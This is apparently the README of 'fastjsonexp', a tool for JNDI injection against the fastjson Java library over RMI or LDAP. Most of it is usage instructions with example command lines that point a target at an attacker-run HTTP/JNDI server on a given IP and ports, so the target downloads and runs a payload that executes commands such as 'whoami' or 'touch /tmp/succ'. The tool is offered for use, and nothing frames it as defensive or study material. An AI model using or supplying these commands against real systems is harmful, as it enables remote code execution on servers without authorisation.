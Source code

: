 # fastjsonexp
fastjson jndi injection 
rmi/ldap 

## how to use
test.py -c <comand> -i <hostip> -t <rmi/ldap> --httpport <httpport> --jndiport <jndiport>
python fastjsonexp.py -c "whoami" -i 30.1.2.222 -t rmi  --httpport 8888  --jndiport 9999
python fastjsonexp.py -c "touch /tmp/succ" -i 30.1.2.222 -t ldap  --httpport 8888  --jndiport 9999
